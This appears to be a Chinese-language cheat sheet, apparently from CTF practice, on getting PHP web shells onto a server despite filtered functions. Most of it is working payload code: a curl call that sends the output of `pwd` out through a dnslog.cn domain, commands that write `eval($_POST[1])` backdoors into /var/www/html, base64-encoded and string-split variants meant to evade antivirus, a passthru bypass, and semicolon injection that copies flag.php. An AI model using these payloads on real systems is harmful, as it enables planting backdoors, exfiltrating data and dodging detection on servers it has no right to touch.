 # 写木马可能遇到的问题

## phpinfo + 🐎

- 不知道上传的马是否成功，因此加phpinfo

## 过滤system->命令执行无回显

- dnslog带外，wget或者curl
- 如果还是显示不了，尝试用base64编码

```shell
shell_exec('curl `pwd|base64`.x3c7at.dnslog.cn')
```

- 写🐎

```php
shell_exec('echo "<?php eval($_POST[1])?>" > /var/www/html/basic/web/1.php')
```

### 

## $需要转义

:::info
**有时候外面是单引号，里面是双引号执行不了，需要多尝试一下**
:::

- 当使用shell_exec时，外面是双引号，里面是单引号，就需要转义

```php
shell_exec( "echo '<?php echo 111111;eval(\$_POST[1]);?>' > /var/www/html/basic/web/2.php";)

```

## 过滤system

[https://www.php.net/manual/zh/function.passthru.php](https://www.php.net/manual/zh/function.passthru.php)

- 使用passthru绕过，且有回显 ，太牛逼了

## 直接用system

```php
<?php system('cat /var/www/html/alsckdfy/check.php > /var/www/html/1.txt')?>
```

- `system`直接执行命令

## 免杀马

:::info
前面的字符串是对`<?php eval($_POST[1]);?>`进行`base64`加密的结果
:::

```php
<?php 
system('echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==" | base64 -d > /var/www/html/shell.php');
?>
```

**方法2：**

```php
<?php
$s = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$s);
?>
```

- 目前我还没成功

## shell_exec无回显

:::info

- `requestbin`带出
- 写`$`转义马
- `cp`或者`mv`复制

`**;**`**截断签名的命令**
:::

```php
shell_exec(';echo  "<?php eval(\$_POST[1]);?>" >a.php;')

 shell_exec(';cp /var/www/html/flag.php /var/www/html/1.txt') 
shell_exec(';mv /var/www/html/flag.php /var/www/html/1.txt') 
```



